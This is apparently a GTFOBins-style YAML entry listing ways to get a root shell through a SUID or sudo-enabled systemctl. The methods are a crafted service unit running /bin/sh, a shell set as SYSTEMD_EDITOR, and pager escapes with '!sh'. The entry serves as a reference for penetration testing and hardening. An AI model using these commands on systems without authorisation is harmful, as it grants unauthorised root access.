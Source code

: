 ```yaml
---
functions:
  suid:
    - code: |
        TF=$(mktemp).service
        echo '[Service]
        Type=oneshot
        ExecStart=/bin/sh -c "id > /tmp/output"
        [Install]
        WantedBy=multi-user.target' > $TF
        ./systemctl link $TF
        ./systemctl enable --now $TF
  sudo:
    - code: |
        TF=$(mktemp)
        echo /bin/sh >$TF
        chmod +x $TF
        sudo SYSTEMD_EDITOR=$TF systemctl edit system.slice
    - code: |
        TF=$(mktemp).service
        echo '[Service]
        Type=oneshot
        ExecStart=/bin/sh -c "id > /tmp/output"
        [Install]
        WantedBy=multi-user.target' > $TF
        sudo systemctl link $TF
        sudo systemctl enable --now $TF
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        sudo systemctl
        !sh
      code: |
        sudo /usr/bin/systemctl status any.service
        !sh
---
```

